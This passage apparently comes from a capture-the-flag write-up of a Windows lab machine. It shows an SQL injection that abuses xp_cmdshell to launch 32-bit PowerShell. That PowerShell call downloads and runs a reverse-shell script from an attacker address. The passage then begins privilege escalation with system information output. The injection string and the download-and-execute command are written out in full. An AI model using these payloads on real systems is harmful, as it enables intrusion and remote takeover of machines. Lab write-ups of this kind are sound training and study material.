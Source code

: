 Now, we just need to gain a reverse shell. Since there's something obviously blocking us on the machine, normal methods using `nc.exe` might not work. Oddly, running `powershell.exe` results in a 500, indicating that we might have to use the full PATH for it.

The 64-bit version of Powershell doesn't work oddly. I tried the 32-bit version located in `C:\Windows\SysWOW64`, and it worked properly:

{% code overflow="wrap" %}
```powershell
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe "iex(new-object net.webclient).downloadstring(\"http://10.10.14.11/rev.ps1\")"
```
{% endcode %}

The final query looks like this:

{% code overflow="wrap" %}
```
1;EXEC+XP_cmdshell+'C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe+"iex(new-object+net.webclient).downloadstring(\"http://10.10.14.11/rev.ps1\")"'--+-
```
{% endcode %}

Take note to rename the shell to `REV.PS1` since the web request sent is in caps for some reason. Afterwards, we would get a shell:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Write Batch --> Decoder Shell

The box is a well patched machine:

```
PS C:\Windows\system32> systeminfo

Host Name:                 FIGHTER
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     19/10/2017, 22:31:21
System Boot Time:          08/08/2023, 07:47:24
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
```